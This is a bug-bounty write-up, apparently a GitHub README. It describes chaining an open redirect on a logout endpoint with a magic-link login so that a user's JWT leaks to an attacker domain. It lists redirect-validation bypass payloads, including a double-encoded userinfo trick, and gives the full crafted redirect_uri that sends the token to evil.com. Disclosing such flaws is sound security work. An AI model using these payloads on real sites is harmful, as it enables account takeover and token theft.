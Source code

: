 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By combining this vulnerability with authentication functionality, I was able to take over the user's account.

## Open Redirection Vulnerability:

### Original Request

![alt text](original_redirect.png)

### Steps

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span style="color:red">***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me, so I knew that I could play with it to see what else I could get.
- I tried to set the hostname to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first, why did we try these payloads?
  - When I try to find an open redirection, I first try to know what URL format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on Firefox or Chrome. 
  - So, by knowing this, I was thinking, what if the developer is using a regex that validates this format, and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validates it as a valid value because he knows that it's the same thing. The user will be redirected to program.com at the end, too.
  - Another question comes to mind. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I put an encoded value like this <span style="color:red">***john%2f***</span> as a username, validates it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break down the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but double-encoded  like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because if I encode once, it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response returns the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see, the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happens to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.

### Exploited Request

![alt text](exploited_request.png)

## Exploiting The Login Functionality.

### Original Request

![alt text](magic_link_original_request.png)

### Steps

- The application has the functionality to send you a magic link to log in with it. This endpoint takes span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability in the email, I tried to find out what I could do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a URL, and the application appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this URL to try and find an open redirection, but with no clue.
- But, what if I could edit the path of the URL like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request, and when I looked at my mail, I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, Can I combine this with the open redirection I have found before? set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link, I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Doing this, I was able to get the JWT as an attacker, and using the JWT, I could log in.
- So the same scenario applies if you want to target another user. You need an email, and after collecting the JWT, you can use it to log in to the user's account.

### Exploited Request

![alt text](magic_link_exploited_request.png)

### My Info

#### Yeswehack  : <a href="https://yeswehack.com/hunters/mekky">https://yeswehack.com/hunters/mekky</a>

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>


